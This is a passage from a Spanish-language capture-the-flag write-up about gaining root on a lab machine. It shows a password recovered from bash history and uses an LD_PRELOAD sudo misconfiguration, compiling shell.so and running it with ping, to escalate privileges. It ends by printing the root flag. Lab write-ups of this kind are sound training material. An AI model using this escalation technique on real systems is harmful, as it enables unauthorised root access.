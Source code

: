 ```
mysql -u root -p
netstat -antlp
mysql -u root
sudo su
ssh root@192.169.155.104
mysql -u user -p
mysql -u db_user -p
ls -ld /var/lib/mysql
ls -al
cat .bash_history 
cat .bash_logout 
nano .bashrc 
ls -al
```

Vemos que la contraseña de este usuario es `MyStrongestPasswordYet$4291`

Si hacemos `sudo -l` sabiendo ya la contraseña...

```
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

Podremos hacer `ping` como root, por lo que si hacemos lo siguiente...

En esa pagina te inica lo que puedes hacer, en nuestro caso utilizaremos `ping`

URL = https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/

```shell
nano <FILE>.c

gcc -fPIC -shared -o shell.so <FILE>.c -nostartfiles

ls -al shell.so

sudo LD_PRELOAD=/tmp/shell.so ping
```

Con esto ya seriamos `root`, leemos la flag de root...

> root.txt (flag2)

```
992bfd94b90da48634aed182aae7b99f
```
